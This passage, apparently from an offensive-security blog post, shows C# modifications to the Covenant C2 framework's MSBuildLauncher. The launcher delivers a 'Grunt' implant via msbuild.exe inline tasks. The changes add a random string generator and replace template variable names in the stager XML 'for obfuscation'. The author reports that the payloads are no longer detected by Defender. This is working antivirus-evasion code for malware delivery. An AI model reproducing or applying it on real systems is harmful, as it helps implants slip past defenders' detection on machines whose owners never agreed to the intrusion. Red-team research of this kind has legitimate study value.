 **Random string generator**
```cs
private string RandomString()
{
    Random random = new Random();
    var stringBuilder = new StringBuilder(5);

    for (int i = 0; i < 5; i++)
    {
        var @char = (char)random.Next('a', 'a' + 26);
        stringBuilder.Append(@char);
    }
    return stringBuilder.ToString();
}
```

**Additional string replacements**
```cs
public MSBuildLauncher()
{
    this.Description = "Uses msbuild.exe to launch a Grunt using an in-line task.";
    this.OutputKind = OutputKind.WindowsApplication;
    this.CompressStager = true;

    // Generate random strings for xml variable names
    this.random_var_outputMemoryStream = RandomString();
    this.random_var_byteArray = RandomString();
    this.random_var_read = RandomString();
    this.random_var_assemblyBuffer = RandomString();
    this.random_var_deflateStream = RandomString();
}

public override string GetLauncher(string StagerCode, byte[] StagerAssembly, Grunt grunt, ImplantTemplate template)
    this.DiskCode = DiskCode.Replace("{{TARGET_NAME}}", this.TargetName);
    this.DiskCode = DiskCode.Replace("{{TASK_NAME}}", this.TaskName);

    // Replacements for obfuscation
    this.DiskCode = DiskCode.Replace("{{MEMORY_STREAM}}", this.random_var_outputMemoryStream);
    this.DiskCode = DiskCode.Replace("{{DEFLATE_STREAM}}", this.random_var_deflateStream);
    this.DiskCode = DiskCode.Replace("{{BYTE_ARRAY}}", this.random_var_byteArray);
    this.DiskCode = DiskCode.Replace("{{READ}}", this.random_var_read);
    this.DiskCode = DiskCode.Replace("{{ASSEMBLY_BUFFER}}", this.random_var_assemblyBuffer);

    ...
```

And now my msbuild launcher payloads are no-longer detected!
![DefenderCheck Pass](../assets/img/covenant-offshore/defendercheck-pass.png)
